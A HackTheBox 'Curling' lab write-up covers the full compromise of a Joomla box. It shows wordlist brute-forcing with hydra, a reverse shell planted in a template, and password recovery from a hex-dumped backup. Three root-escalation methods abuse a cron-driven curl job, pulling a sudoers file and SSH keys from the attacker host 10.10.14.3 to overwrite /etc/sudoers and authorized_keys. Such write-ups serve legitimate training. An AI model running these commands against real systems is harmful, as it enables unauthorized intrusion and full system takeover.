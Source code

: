 # Recon
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.150 -T5
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/1.png">

The scan shows two open ports and the target is running on Linux. On port 80 there's a webservice running a CMS. We spot a administator username in a message: ```Floris```. Next we'll try to find out the type and version of the CMS.

# Enumeration
Running ```whatweb``` on the target shows us that the webservice is running Joomla.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/2.png">

```Wappalyzer``` tells us the same thing:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/4.png">

Next we'll run ```joomscan``` on the target only to find out it didn't return anything useful. We do however find the administrator login page at ```http://10.10.10.150/administrator/```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/3.png">

# Initial Foothold
We can use ```cewl``` to create a wordlist in order to bruteforce the ```Floris``` administrator account.
```
cewl -m 3 http://10.10.10.150 -d 3 -w words.txt 
```
```Cewl``` removes trailing numbers so we'll add ```curling2018``` to our wordlist. We also use ```john the ripper``` to add numbers and symbols:
```
john --wordlist=words.txt --rules --stdout > words-modified.txt 
```

We intercept a login attempt with ```BurpSuite``` and use the information to craft the request for ```thc-hydra```:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/5.png">
```
hydra -l Floris -P words-modified.txt 10.10.10.150 http-post-form "/:username=^USER^&passwd=^PASS^&option=com_login&task=login&return=aW5kZXgucGhw&9abbf60416dedcbdf4f5530a3ddea49d=1:F=Username and password do not match" -V 
```
This didn't work either..

Reviewing the code from the website reveals a secret.txt file. This file contains a base64 encoded string which decodes to: ```Curling2018!```.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/6.png">

We can now login at the administrator page using ```Floris``` and ```Curling2018!```.

Next thing we can try is to upload a reverse php shell from Pentestmonkey. A filter is blocking this attempt. We can try to bypass these filters by altering the request but it didn't seem to work. Another method is to change the content of a page. We'll do this for the ```index.php``` page after browsing to ```Extensions >  Templates > Templates > Beez3 Details and Files```.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/8.png">

As soon as we preview the template we have a reverse shell:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/7.png">

# Lateral movement
Trying to upgrade to a PTY shell didn't work as there's no ```python``` installed. We can however try to upgrade to a TTY shell:
```
/usr/bin/script -qc /bin/bash /dev/null	
export TERM=xterm
Press ctrl+z key combination 
stty raw -echo; fg
```

We look for cron jobs, running processes and check the kernel version with ```uname -a```. This shows the target is running Linux Curling 4.15.0. Nothing special to see here.

When browsing the users files we have access to a file named ```pass_word``` backup. After investigating this file it turns out to be hex dump using ```xxd```. Which we can reverse.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/9.png">

```
cat password_backup | xxd -r > output
```

We then have to extract the file a few times using the following commands:
```
bzip2 -d bak
file bak.out
mv bak.out bak.gz
gzip -d bak.gz
file bak
bzip2 -d bak
file bak.out
tar xf bak.out
cat password.txt
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/10.png">

This provides us with a password: ```5d<wdCbdZu)|hChXll```. We can now use ```su floris``` and enter the password to have access using the ```floris``` account.

# Privilege Escalation (Method 1)
We now have access to the ```admin-area``` where we find two files named ```input``` and ```report```. There's probably a cron job running as root. We can confirm this by running the following command:
```
while true; do ps waux | grep report | grep -v "grep --color"; done
```
We could also use ```pspy64s``` for this.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/11.png">

One way to get the root flag is to change the ```input``` file so that it uses ```curl``` to retrieve the root flag:

```
echo url = "file:///root/root.txt" > input
```
And then wait until the cron jobs runs.

# Privilege Escalation (Method 2)
Another way is to change the ```sudo``` configuration:
```
nano my-sudoers

Add:
root	ALL=(ALL:ALL) ALL
floris	ALL=(ALL:ALL) ALL
```
And start a webserver on the attacking machine:
```
python -m SimpleHTTPServer 8000
```
We then change the content of the ```input``` file so that it downloads our sudoers file and saves it at ```/etc/sudoers```:
```
echo -e 'url = "http://10.10.14.3:8000/my-sudoers"\noutput = "/etc/sudoers"' > input
```
We can now run ```sudo su``` and enter our known password to get a shell as root:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/12.png">

# Privilege Escalation (Method 3)
Yet another way is to copy our public ```ssh``` key to the authorized keys at our target. We'll first create a keypair using ```ssh-keygen``` and setup a webserver.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/13.png">

We then change the content of the ```input``` file  
```
echo -e 'url = "http://10.10.14.3:8000/authorized_keys"\noutput = "/root/.ssh/authorized_keys"' > input
```
We again wait until the file is downloaded and are then able to login as ```root```:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/14.png">
















